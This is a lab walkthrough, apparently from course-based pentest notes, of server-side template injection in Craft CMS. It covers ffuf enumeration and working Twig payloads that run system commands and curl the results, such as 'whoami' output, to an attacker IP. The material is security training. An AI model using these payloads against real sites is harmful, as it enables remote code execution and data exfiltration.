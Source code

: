 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Case Study: Craft CMS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The source code of the web application contains some clues. More specifically, it discloses that the **Craft CMS** is used and the use of `[]` in the `name` attribute of the `input` field indicates the usage of the **PHP** programming language (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_ssti_craft_1.png" alt=""><figcaption><p>Figure 1: Inspecting the source code of the homepage.</p></figcaption></figure>

Performing a dirbusting with [`ffuf`](broken-reference) , we find that there is an `/admin` directory which further confirms that we are using the Craft CMS (Figure 2).

{% code overflow="wrap" %}
```bash
$ ffuf -u 'http://craft/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -ic -ac
<SNIP>

index          [Status: 200, Size: 56254, Words: 12711, Lines: 740, Duration: 2847ms]
admin          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3572ms]
logout         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3448ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ssti_craft_2.png" alt=""><figcaption><p>Figure 2: The <code>/admin</code> directory validates the usage of the Craft CMS.</p></figcaption></figure>

The home page of the web application provides a way to send an email to the site's administrator. **Emails are great targets for SSTI** as they consist of mainly generic elements which are then tailored to the user using a templating engine. Searching for "[_Craft CMS templating engine_](https://www.google.com/search?client=firefox-b-e\&q=craft+cms+templating+engine)" reveals that [Twig](twig.md) is used (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_ssti_craft_3.png" alt=""><figcaption><p>Figure 3: Enumerating Craft's templating engine.</p></figcaption></figure>

We can send an email containing a Twig-specific payload to form an out-of-band communication.

```twig
{{[0]|reduce('system','curl http://192.168.45.155:7331/hello')}}
```

When we send the email the payload is executed and we receive a response back.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:01:27] code 404, message File not found
192.168.152.105 - - [15/Aug/2024 17:01:27] "GET /hello HTTP/1.1" 404 -
```
{% endcode %}

To exfiltrate data in Twig, we use the [tilde character](https://twig.symfony.com/doc/3.x/templates.html#other-operators) (`~`) for string concatenation, which allows us to append the exfiltrated data to a `GET` request and the [`set`](https://twig.symfony.com/doc/3.x/tags/set.html) tag to declare variables. Additionally, we apply the [`url_encode`](https://twig.symfony.com/doc/3.x/filters/url_encode.html) method method to the `exfil` variable to ensure our payload is properly URL-encoded.

```bash
{% raw %}
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}}

{% set exfil = output| url_encode %}
{% endraw %}
{{[0]|reduce('system','curl http://192.168.45.155:7331/?exfil=' ~ exfil)}}
```

In the response, we confirm that we have achieved RCE.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:45:00] "GET /?exfil=%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -

# URL-decoding the exfiltrated data
$ echo "%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A" | python3 -c 'import sys;from urllib.parse import unquote;print(unquote(sys.stdin.read()));'
<br />
www-data
www-data<br />
```
{% endcode %}
